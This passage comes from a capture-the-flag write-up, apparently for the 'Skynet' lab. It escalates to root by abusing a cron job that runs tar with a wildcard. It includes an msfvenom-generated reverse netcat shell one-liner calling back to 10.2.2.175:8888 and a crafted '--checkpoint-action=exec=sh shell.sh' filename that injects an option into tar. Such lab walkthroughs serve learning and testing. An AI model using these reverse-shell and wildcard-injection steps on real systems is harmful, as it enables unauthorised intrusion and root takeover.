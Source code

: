 Unfortunately, this is running under root. 

Looking at the script I see  this. 

```
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$ 
```



## Brick Wall
After trying many things, I hit a brick wall and was stuck so I had to resort to trying to find a hint on the web. 

It was this research that led me to this walktough on YouTube by [John Hammond](https://youtu.be/HXikLrFVIXc) which highlighted a technique, tar wildcard injection which can be read about on this [site](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/).


## Escalation (Resumed)
I created reverse netcat shellcode using msfvenom

```
(dspo6㉿kali)[~/pentest/pentest_utils/shells]$ msfvenom -p cmd/unix/reverse_netcat lhost=10.2.2.175 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 88 bytes
mkfifo /tmp/pbwq; nc 10.2.2.175 8888 0</tmp/pbwq | /bin/sh >/tmp/pbwq 2>&1; rm /tmp/pbwq
(dspo6㉿kali)[~/pentest/pentest_utils/shells]$
```

I then created a script on the target using this shellcode and copied it to the folder being backup by the cron job. 

```
www-data@skynet:/dev/shm$ echo "mkfifo /tmp/pbwq; nc 10.2.2.175 8888 0</tmp/pbwq | /bin/sh >/tmp/pbwq 2>&1; rm /tmp/pbwq
> " > shell.sh
www-data@skynet:/dev/shm$
www-data@skynet:/dev/shm$ cp shell.sh /var/www/html
```

I then ran through the steps indicated on the tar wildcard page and waited for the backup cron job to run. 

```
www-data@skynet:/dev/shm$ cp --checkpoint=1 /var/www/html
cp: unrecognized option '--checkpoint=1'
Try 'cp --help' for more information.
www-data@skynet:/dev/shm$ cd /var/www/html
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```
